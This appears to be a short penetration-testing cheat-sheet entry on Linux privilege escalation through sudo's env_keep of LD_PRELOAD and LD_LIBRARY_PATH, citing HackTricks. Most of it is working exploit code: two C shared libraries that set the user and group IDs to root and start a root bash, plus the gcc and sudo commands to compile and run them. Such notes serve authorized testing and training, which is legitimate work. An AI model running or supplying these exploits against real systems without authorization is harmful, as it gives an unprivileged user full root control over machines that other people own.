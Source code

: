 [[Sudo-Shell_Escapes]]
#### LD_PRELOAD
**env_keep+=LD_PRELOAD**
[Hack-Tricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation)

If sudo -l shows any root function and the env_keep+=LD+PRELOAD we can compile a shared library to bee called for priv-esc

`/tmp/pe.c`
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

*compile & run*
```bash
cd /tmp
gcc -fPIC -shared -o pe.so pe.c -nostartfiles

sudo LD_PRELOAD=./pe.so <COMMAND> #Use any command you can run with sudo
```

**LD_LIBRARY_PATH**
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

```bash
# Compile & execute
cd /tmp
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
sudo LD_LIBRARY_PATH=/tmp <COMMAND>
```
